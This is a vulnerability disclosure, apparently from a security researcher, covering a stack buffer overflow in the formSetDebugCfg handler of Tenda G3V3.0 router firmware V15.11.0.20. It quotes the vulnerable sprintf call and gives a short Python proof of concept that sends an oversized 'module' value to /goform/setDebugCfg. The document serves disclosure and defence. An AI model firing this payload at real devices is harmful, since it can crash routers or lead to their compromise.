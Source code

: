 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3369.html

## Affected version

G3V3.0 V15.11.0.20

## Vulnerability details

The Tenda G3V3.0 V15.11.0.20 firmware has a stack overflow vulnerability in the `formSetDebugCfg` function. The `pEnable, pLevel, pModule` variable receives the `enable, level, module  ` parameter from a POST request. However, since the user can control the input of `enable, level, module`, the statement

```c
sprintf(
    (char *)cmd,
    "echo enable=%s level=%s > /var/debug/%s",
    (const char *)pEnable,
    (const char *)pLevel,
    (const char *)pModule);
```

can cause a buffer overflow. The user-provided  `enable, level, module` can exceed the capacity of the `cmd` array, triggering this security vulnerability.

![image-20240417093917502](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417093917502.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setDebugCfg"
payload = b"a"*2000

data = {
        'module':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```
